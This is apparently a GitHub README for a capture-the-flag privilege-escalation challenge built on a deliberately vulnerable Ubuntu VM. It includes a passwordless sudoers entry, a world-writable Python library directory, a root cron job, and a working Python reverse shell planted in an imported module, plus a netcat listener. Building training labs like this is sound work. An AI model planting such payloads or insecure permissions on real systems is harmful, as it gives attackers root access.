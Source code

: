 # EncryptEdge RCSCTF

This repository contains details and code for the EncryptEdge RCSCTF Challenge No.3 Privilage Escalation part.

## Table of Contents
- [Introduction](#introduction)
- [Installation](#installation)
- [Usage](#usage)

## Introduction
This particular challenge is designed to showcase various Python libraries and demonstrate system administration tasks such as creating cron jobs and managing file permissions.

This challenge is based on the "Write Permissions on Imported Python Module"

We are intentionally giving the permissions of python library to user, And I have imported a custom library.

# Installation
> To get started with the challenge, follow these steps:

1. Clone the repository:
    ```shell
    git clone https://github.com/your-username/EncryptEdge-RCSCTF.git
    ```

2. Install the required Python libraries:
    ```
    pip install -r requirements.txt
    ```

# Usage

## Create a VM in any type-2 hyperviser 
> I used Ubuntu 22.04 LTS ISO image

> I used VMWare Workstation


## we need to put the hint.txt in the root home directory 

> This hint.txt is used by the script (i.e Fishy.py) runned by cron as root

> We can edit the script (Fishy.py) to mention the directory location in which we need to create a hint file like (youneedme.txt) to give a hint to user for exploitation.

> You can modify the locations of files as per needed.

## Checking Default Python Libraries
> To check the default Python libraries, run the following command:
```
python3 -c 'import sys; print("\n".join(sys.path))'
```
## Giving Least Privilages to user 

> I removed user from the "adm" and "sudo" groups

```sudo gpasswd -d (usernme) (groupname)```

## Viewing a particular user cronjob

```sudo crontab -l -u (username)```

## Create a System-wide Cronjob
> To create a system-wide cronjob that runs every 2 minutes, edit the /etc/crontab file:

```
sudo nano /etc/crontab
```

> Add the following line to run the Python script every 2 minutes:
```
*/2 * * * * /usr/bin/python3 /home/xavir/Fishy.py
```

## Editing Sudoers file 
> Open the sudoers file in a text editor with sudo privileges:

```sudo visudo```

> Add the following line at the end of the file:
```xavir ALL=(ALL) NOPASSWD: /usr/lib/python3.10```

> This will allow the user xavir to run /usr/bin/python3.10 as root without being asked for a password.

> Save the file and exit the text editor.

## Manage Access to Fishy.py
> To give only read access to Fishy.py to the user xavir, use the chmod and chown commands:

```
chown root:xavir /path/to/Fishy.py
chmod 640 /path/to/Fishy.py
```
## Manage access to custom python library
> To give only read and write access to demon.py to the user xavir, use the chmod and chown commands:

```
sudo chown -R xavir /usr/lib/python3.10
sudo chmod -R u+rw /usr/lib/python3.10
```

## View System-wide Cronjob
> To view the system-wide cronjob, use the following command:

```
cat /etc/crontab
```

## Implementing a Reverse Shell in Python 
> Editing custom library (i.e demon.py) which user has access to read and write and will upload the pyhton reverse shell

```nano /usr/lib/python3.10/demon.py```

```
#!/usr/bin/python3
from os import dup2
from subprocess import run
import socket

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("127.0.0.1", 9001))
dup2(s.fileno(), 0)
dup2(s.fileno(), 1)
dup2(s.fileno(), 2)
run(["/bin/bash", "-i"])
```
## Getting the reverse shell 
> Start a listner on the host machine 

```nc -lvnp (port)```

> As the cronjob is running continuosly we will get the rev shell as soon as possible when the script is runned and a hint text file named youneedme.txt will be created in the used home directory.

> As our Cronjob script is runned by sudo privilages, the payload is executed by sudo privilages and hence we will get the root shell.


## This Privilage Escalation has three methods 
> 1. Method 1 [Write Permissions]

A vulnerability in a Python script that is caused by the permissions of the module file being imported. When the imported module file has permissions that allow any user to edit, it becomes a vulnerability. To understand the background and the permissions that can lead to a privilege escalation, the vulnerability is created in an Ubuntu environment and then exploited using Kali Linux.

> 2. Method 2 [Priority Order]

A vulnerability in a Python script that is caused by the priority order of the Python Library path. When a module is imported in a script, Python searches for the module file inside the default directories in a particular priority order. If there exists a Python module file in the same directory as the original script, it will get priority over the default paths. To understand how this can lead to a privilege escalation, the vulnerability is created in an Ubuntu environment and then exploited using Kali Linux.

> 3. Method 3 [PYTHONPATH Environment Variable]

This vulnerability is based on the Python Library that is searching through the Python PATH Environment Variable. This variable holds a list of directories where the python searches for the different directories for the imported modules. If an attacker can change or modify that variable then they can use it to elevate privileges on the target machine. To get a better understanding of what goes in the background, how can it lead to a privilege escalation we will first create the vulnerability in our ubuntu environment and then use Kali Linux to exploit this vulnerability. 
